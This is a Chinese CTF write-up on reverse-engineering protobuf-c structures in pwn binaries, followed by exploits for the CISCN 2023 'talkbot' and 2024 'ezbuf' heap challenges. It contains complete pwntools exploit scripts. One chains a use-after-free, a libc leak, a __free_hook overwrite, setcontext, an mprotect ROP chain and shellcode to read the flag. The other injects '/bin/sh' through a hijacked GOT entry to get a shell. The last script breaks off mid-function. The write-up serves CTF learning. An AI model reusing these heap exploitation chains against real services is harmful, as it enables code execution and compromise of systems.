# protobuf脱壳二进制漏洞总结-先知社区

> **来源**: https://xz.aliyun.com/news/16091  
> **文章ID**: 16091

---

# 基础部分

## 简介

Protocol Buffers（简称 Protobuf）是由 Google 开发的一种语言中立、平台中立的可扩展序列化结构数据的方法。Protobuf 是一种高效的协议，常用于网络通信、数据存储和使用数据的应用程序之间的传输，最近几年的国赛和其他大赛都相继会在原pwn的基础上套一层protobuf的壳 故写下此文章总结

## 环境搭建

官方GitHub地址：<https://github.com/protocolbuffers/protobuf>

需要安装 Protobuf运行时 和 协议编译器（用于编译.proto文件）。

```
udo apt-get update
sudo apt-get install -y protobuf-compiler libprotobuf-dev
sudo apt-get install libprotobuf-c-dev protobuf-c-compiler
```

protoc --c\_out=. user.proto

这会在当前目录下生成两个文件：`user.pb-c.h`和`user.pb-c.c`

**`user.pb-c.h`**：头文件，定义了消息类型（如`User`结构体）及其相关的函数。

**`user.pb-c.c`**：源文件，实现了这些函数，包含序列化和反序列化等操作。

在你的C程序中，你需要包含生成的`user.pb-c.h`头文件，这样你就可以使用`User`消息类型及其相关的protobuf操作函数。


如果想要编译为Python代码，用如下命令（在CTF中通常编译为Python代码以在脚本中与程序交互）：

```
protoc --python_out=. demo.proto1

```

会生成 **demo\_pb2.py**。（pb2后缀只是为了和protobuf1区分）

## 基本语法

```
// demo.proto
syntax = "proto3";

package tutorial;

message Person {
  string name = 1;
  int32 id = 2;
  string email = 3;

  enum PhoneType {
    PHONE_TYPE_UNSPECIFIED = 0;
    PHONE_TYPE_MOBILE = 1;
    PHONE_TYPE_HOME = 2;
    PHONE_TYPE_WORK = 3;
  }

  message PhoneNumber {
    string number = 1;
    PhoneType type = 2;
  }

  repeated PhoneNumber phones = 4;
}

message AddressBook {
  repeated Person people = 1;
}
```

## 逆向分析关键

在生成的demo-pb-c.c文件中，可以发现存在unpack函数：

```
Tutorial__AddressBook *
       tutorial__address_book__unpack
                     (ProtobufCAllocator  *allocator,
                      size_t               len,
                      const uint8_t       *data)
{
  return (Tutorial__AddressBook *)
     protobuf_c_message_unpack (&tutorial__address_book__descriptor,
                                allocator, len, data);
}
```

这个反序列化函数传入描述**消息结构体数据**的**descriptor**。我们可以在IDA中分析descriptor还原消息结构体。

## Descriptor结构体

Descriptor定义如下：

```
struct ProtobufCMessageDescriptor {
    uint32_t magic;                            /**< 1 */
    const char *name;                          /**< 2 */
    const char *short_name;                    /**< 3 */
    const char *c_name;                        /**< 4 */
    const char *package_name;                  /**< 5 */
    size_t sizeof_message;                     /**< 6 */
    unsigned n_fields;                         /**< 7 */
    const ProtobufCFieldDescriptor *fields;    /**< 8 */
    const unsigned *fields_sorted_by_name;     /**< 9 */
    unsigned n_field_ranges;                   /**< 10 */
    const ProtobufCIntRange *field_ranges;     /**< 11 */
    ProtobufCMessageInit message_init;         /**< 12 */
    void *reserved1;                           /**< 13 */
    void *reserved2;                           /**< 14 */
    void *reserved3;                           /**< 15 */
};
```

* magic：通常为0x28AAEEF9。
* n\_fields：结构体中的字段数量。
* fields：指向一个储存字段和数据的结构体。
* fields是ProtobufCFieldDescriptor类型。

## ProtobufCFieldDescriptor结构体

```
struct ProtobufCFieldDescriptor {
    const char *name;              /**< 1 */ 8
    uint32_t id;                   /**< 2 */ 4
    ProtobufCLabel label;          /**< 3 */ 4
    ProtobufCType type;            /**< 4 */ 4
    unsigned quantifier_offset;    /**< 5 */ 4
    unsigned offset;               /**< 6 */ 4
    const void *descriptor;        /**< 7 */ /* 对于 MESSAGE 和 ENUM 类型 */ 8
    const void *default_value;     /**< 8 */ 8
    uint32_t flags;                /**< 9 */ 4
    unsigned reserved_flags;       /**< 10 */ 8
    void *reserved2;               /**< 11 */
    void *reserved3;               /**< 12 */
};
```

* name：字段名。
* id：唯一字段编号。
* label：修饰符，如：required、optional、repeated。
* type：数据类型，如：bool、int32、float、double等。

type和label是枚举类型：

```
typedef enum {

    PROTOBUF_C_LABEL_REQUIRED,  //1
    PROTOBUF_C_LABEL_OPTIONAL,  //2
    PROTOBUF_C_LABEL_REPEATED,  //3
    PROTOBUF_C_LABEL_NONE,      //4
} ProtobufCLabel;

typedef enum {
    PROTOBUF_C_TYPE_INT32,      /**< int32 */                // 0
    PROTOBUF_C_TYPE_SINT32,     /**< 有符号 int32 */        // 1
    PROTOBUF_C_TYPE_SFIXED32,   /**< 有符号 int32（4 字节） */ // 2
    PROTOBUF_C_TYPE_INT64,      /**< int64 */                // 3
    PROTOBUF_C_TYPE_SINT64,     /**< 有符号 int64 */        // 4
    PROTOBUF_C_TYPE_SFIXED64,   /**< 有符号 int64（8 字节） */ // 5
    PROTOBUF_C_TYPE_UINT32,     /**< 无符号 int32 */        // 6
    PROTOBUF_C_TYPE_FIXED32,    /**< 无符号 int32（4 字节） */ // 7
    PROTOBUF_C_TYPE_UINT64,     /**< 无符号 int64 */        // 8
    PROTOBUF_C_TYPE_FIXED64,    /**< 无符号 int64（8 字节） */ // 9
    PROTOBUF_C_TYPE_FLOAT,      /**< 浮点数 */              // 10
    PROTOBUF_C_TYPE_DOUBLE,     /**< 双精度浮点数 */        // 11
    PROTOBUF_C_TYPE_BOOL,       /**< 布尔类型 */            // 12
    PROTOBUF_C_TYPE_ENUM,       /**< 枚举类型 */            // 13
    PROTOBUF_C_TYPE_STRING,     /**< UTF-8 或 ASCII 字符串 */ // 14
    PROTOBUF_C_TYPE_BYTES,      /**< 任意字节序列 */        // 15
    PROTOBUF_C_TYPE_MESSAGE,    /**< 嵌套消息 */            // 16
} ProtobufCType;
```

# 脱壳学习

可以手动分析也可以使用工具分析

## 工具分析

pbkg

```
sudo apt install python3-pip git openjdk-11-jre libqt5x11extras5 python3-pyqt5.qtwebengine python3-pyqt5
sudo pip3 install protobuf pyqt5 pyqtwebengine requests websocket-client
git clone https://github.com/marin-m/pbtk
cd pbtk
./gui.py
```

  
这个工具 可以直接解析出protobuf的结构体并且生成protos文件，但是缺点是 针对题目来说，有部分题目是解析不出来的

## 手动分析

分析的关键就是定位，根据magic的值定位到description结构体的位置 然后按照字节去逆向还原结构体，并根据还原的结构体去定位到ProtobufCFieldDescriptor结构体同样是按照字节去逆向还原结构体，还原之后再根据参数个数去判断是proto2还是proto3，因为proto3删除了预留的值  
**纸上得来终觉浅，绝知此事要躬行** 接下来我们通过两道国赛protobuf的堆题进行讲解

# 2023ciscn-talkbot

## 程序保护



## 逆向出结构体部分

### Descriptor

首先我们定位到 magic 0x28AAEEF9

按照字节还原分析Descriptor结构体为



然后依据： const ProtobufCFieldDescriptor \*fields; / 8 /

进一步跟踪到ProtobufCFieldDescriptor

### ProtobufCFieldDescriptor

继续按照字节还原ProtobufCFieldDescriptor结构体为



第一个结构体

* name为actionid
* id 为 1
* label是0 对应的是required
* type 是4 对应的是SINT64
* offset为0x18

第二个结构体

* name为msgidx
* id 为 2
* label是0 对应的是required
* type 是4 对应的是SINT64
* offset为0x20

第三个结构体

* name为msgsize
* id 为 3
* label是0 对应的是required
* type 是4 对应的是SINT64
* offset为0x28

第四个结构体

* name为msgcontent
* id 为 4
* label是0 对应的是required
* type 是15 对应的是BYTES
* offset为0x30

这里我们已经基本逆出了 protobuf 的结构体，但是还有个问题 我们要弄清楚是那个版本的 我们观察到ProtobufCFieldDescriptor结构体 保存了预留的值 因此 这个是proto2编译的

所以我们得出的结构体如下：

```
syntax = "proto2";

message devicemsg {
  required sint64 actionid = 1;
  required sint64 msgidx = 2;
  required sint64 msgsize = 3;
  required bytes msgcontent = 4;
}
```

因此逆结构体的过程就结束了 我们可以去写交互脚本调试分析程序了

## 交互脚本

```
def add(index, size,content):
    Devicemsg = Devicemsg_pb2.devicemsg()
    Devicemsg.actionid = 1
    Devicemsg.msgidx = index
    Devicemsg.msgsize = size
    Devicemsg.msgcontent = content
    sa(b'You can try to have friendly communication with me now: \n', Devicemsg.SerializeToString())
def free(index):
    Devicemsg = Devicemsg_pb2.devicemsg()
    Devicemsg.actionid = 4
    Devicemsg.msgidx = index
    Devicemsg.msgsize = 0
    Devicemsg.msgcontent = b'a'
    sa(b'You can try to have friendly communication with me now: \n', Devicemsg.SerializeToString())
def show(index):
    Devicemsg = Devicemsg_pb2.devicemsg()
    Devicemsg.actionid = 3
    Devicemsg.msgidx = index
    Devicemsg.msgsize = 0
    Devicemsg.msgcontent = b'a'
    sa(b'You can try to have friendly communication with me now: \n', Devicemsg.SerializeToString())
def edit(index,content):
    Devicemsg = Devicemsg_pb2.devicemsg()
    Devicemsg.actionid = 2
    Devicemsg.msgidx = index
    Devicemsg.msgsize = 0
    Devicemsg.msgcontent = content
    sa(b'You can try to have friendly communication with me now: \n', Devicemsg.SerializeToString())
```

## 漏洞分析



这里关键漏洞在于这个free



这里虽然有置零 但是置错位置了 应该是A460而不是A060 就导致uaf漏洞 而由于是2.31的版本 且开了沙盒 并且我们关注到



堆上是没有可执行权限的因此我们要利用mprotect + setcontext\_61+magic\_addr去进行 攻击 ，2.29之后setcontext变为了rdx因此需要用magic\_addr来进行转换 此时的2.31还能用的magic\_addr是



## exp如下

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
import Devicemsg_pb2


#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./pwn"
mx = process(filename)
#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\
def add(index, size,content):
    Devicemsg = Devicemsg_pb2.devicemsg()
    Devicemsg.actionid = 1
    Devicemsg.msgidx = index
    Devicemsg.msgsize = size
    Devicemsg.msgcontent = content
    sa(b'You can try to have friendly communication with me now: \n', Devicemsg.SerializeToString())
def free(index):
    Devicemsg = Devicemsg_pb2.devicemsg()
    Devicemsg.actionid = 4
    Devicemsg.msgidx = index
    Devicemsg.msgsize = 0
    Devicemsg.msgcontent = b'a'
    sa(b'You can try to have friendly communication with me now: \n', Devicemsg.SerializeToString())
def show(index):
    Devicemsg = Devicemsg_pb2.devicemsg()
    Devicemsg.actionid = 3
    Devicemsg.msgidx = index
    Devicemsg.msgsize = 0
    Devicemsg.msgcontent = b'a'
    sa(b'You can try to have friendly communication with me now: \n', Devicemsg.SerializeToString())
def edit(index,content):
    Devicemsg = Devicemsg_pb2.devicemsg()
    Devicemsg.actionid = 2
    Devicemsg.msgidx = index
    Devicemsg.msgsize = 0
    Devicemsg.msgcontent = content
    sa(b'You can try to have friendly communication with me now: \n', Devicemsg.SerializeToString())


for i in range(8):
    add(i,0xf0,b'a')
add(8,0xa0,b'b')
for i in range(7):
    free(i)
free(7)

show(7)
mx.recv(0x50)
libc_addr=h64()-0x1ecb61

libc.address=libc_addr
show(6)
heap_addr=h64()-0x860

setcontext_61 = libc.sym['setcontext'] + 61
pop_rdi=0x0000000000023b6a+libc_addr
pop_rdx=0x0000000000142c92+libc_addr
pop_rsi=0x000000000002601f+libc_addr
ret=pop_rdi+1
open_addr=libc.sym['open']
read_addr=libc.sym['read']
write_addr=libc.sym['write']
free_hook=libc.sym['__free_hook']
mprotect_addr=libc.sym['mprotect']
magic_gadget=0x0000000000151990+libc_addr
#0x0000000000151990: mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20]; 
flag=heap_addr+0x130
flag_addr=flag

shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
'''
)

edit(6,p64(free_hook))
add(9,0xf0,b'a')
add(10,0xf0,p64(magic_gadget))

log_addr(heap_addr)
log_addr(libc_addr)
log_addr(magic_gadget)
log_addr(setcontext_61)
edit(0,b'flag')
rop_addr=heap_addr+0x9d0
p1 = p64(heap_addr + 0x420) + p64(heap_addr +0x420-0x20)
p1 = p1.ljust(0x10, b'\x00') + p64(setcontext_61)
p1 = p1.ljust(0x58, b'\x00') + p64(heap_addr-0x1e0)
p1 = p1.ljust(0x60, b'\x00') + p64(0x2000)
p1 = p1.ljust(0x78, b'\x00') + p64(7)
p1 = p1.ljust(0x90, b'\x00') + p64(rop_addr)
p1 = p1.ljust(0x98, b'\x00') + p64(mprotect_addr)


orw=b''
orw+=p64(pop_rdi)+p64(flag)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(open_addr)
orw+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(read_addr)
orw+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(write_addr)
edit(2,p1)

set_context2=p64(0)*4+p64(setcontext_61)+p64(rop_addr)*20
dbg()

edit(4,set_context2)
edit(6,orw)
free(2)
inter()
```



# ciscn2024-ezbuf

## 程序保护



## 逆向出结构体部分

**Descriptor**



### ProtobufCFieldDescriptor



第一个结构体

* name为whatcon
* id 为 1
* label是3 对应的是required
* type 是15 对应的是bytes
* offset为0x18

第二个结构体

* name为whattodo
* id 为 2
* label是3 对应的是required
* type 是4 对应的是sint64
* offset为0x28

第三个结构体

* name为whatidx
* id 为 3
* label是3 对应的是required
* type 是4 对应的是sint64
* offset为0x30

第四个结构体

* name为whatsize
* id 为 4
* label是3 对应的是required
* type 是4 对应的是sint64
* offset为0x38

第五个结构体

* name为whatsthis
* id 为 5
* label是3 对应的是required
* type 是6 对应的是uint32
* offset为0x40

因此我们逆向出结构体为

```
syntax = "proto2";

message devicemsg {
  required bytes whatcon = 1;
  required sint64 whattodo = 2;
  required sint64 whatidx = 3;
  required sint64 whatsize = 4;
  required uint32 whatsthis = 5;
}
```

## 交互脚本

```
def add(index, size,content):
    Devicemsg = protos_pb2.devicemsg()
    Devicemsg.whatcon = content
    Devicemsg.whattodo = 1
    Devicemsg.whatidx = index
    Devicemsg.whatsize = size
    Devicemsg.whatsthis = 0
    sa(b'WANT?\n', Devicemsg.SerializeToString())

def free(index):
    Devicemsg = protos_pb2.devicemsg()
    Devicemsg.whatcon = b'a'
    Devicemsg.whattodo = 2
    Devicemsg.whatidx = index
    Devicemsg.whatsize = 0
    Devicemsg.whatsthis = 0
    sa(b'WANT?\n', Devicemsg.SerializeToString())
def show(index):
    Devicemsg = protos_pb2.devicemsg()
    Devicemsg.whatcon = b''
    Devicemsg.whattodo = 3
    Devicemsg.whatidx = index
    Devicemsg.whatsize = 0
    Devicemsg.whatsthis = 0
    sa(b'WANT?\n', Devicemsg.SerializeToString())
def get_shell(index):
    Devicemsg = protos_pb2.devicemsg()
    Devicemsg.whatcon = b'a;/bin/sh\x00'
    Devicemsg.whattodo = 3
    Devicemsg.whatidx = index
    Devicemsg.whatsize = 48
    Devicemsg.whatsthis = 0
    print(Devicemsg.SerializeToString())
    sa(b'WANT?\n', Devicemsg.SerializeToString())
```

## 漏洞分析



free没有置零 存在uaf漏洞



a5是我们可以控制的，并且strtok会用到ABS\_got 也就是libc的got表，这里也可以打puts的abs\_got表都可以，puts的话要用ogg 但是这题我试了十几个偏移都是有问题的大概率限制了不让ogg这种思路去打，所以只能利用strtok这里，因为这里rdi是我们可以控制的 只需要把跳转的函数劫持为system函数就可以了

还有一个问题就是这里是不存在edit函数所以tcache的double free是打不了的，但是堆块是被控制到0x30 size的也就是在fast bin的范畴 并且free最多10次，我们可以七次free 填满tcache 剩下三次构造一个 double free的fast bin attack去进行攻击,就可以实现任意地址写改libc的got表劫持程序流拿shell了

## exp

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *
import protos_pb2


#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./pwn"
mx = process(filename)
#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\
def add(index, size,content):
    Devicemsg = protos_pb2.devicemsg()
    Devicemsg.whatcon = content
    Devicemsg.whattodo = 1
    Devicemsg.whatidx = index
    Devicemsg.whatsize = size
    Devicemsg.whatsthis = 0
    sa(b'WANT?\n', Devicemsg.SerializeToString())

def free(index):
    Devicemsg = protos_pb2.devicemsg()
    Devicemsg.whatcon = b'a'
    Devicemsg.whattodo = 2
    Devicemsg.whatidx = index
    Devicemsg.whatsize = 0
    Devicemsg.whatsthis = 0
    sa(b'WANT?\n', Devicemsg.SerializeToString())
def show(index):
    Devicemsg = protos_pb2.devicemsg()
    Devicemsg.whatcon = b''
    Devicemsg.whattodo = 3
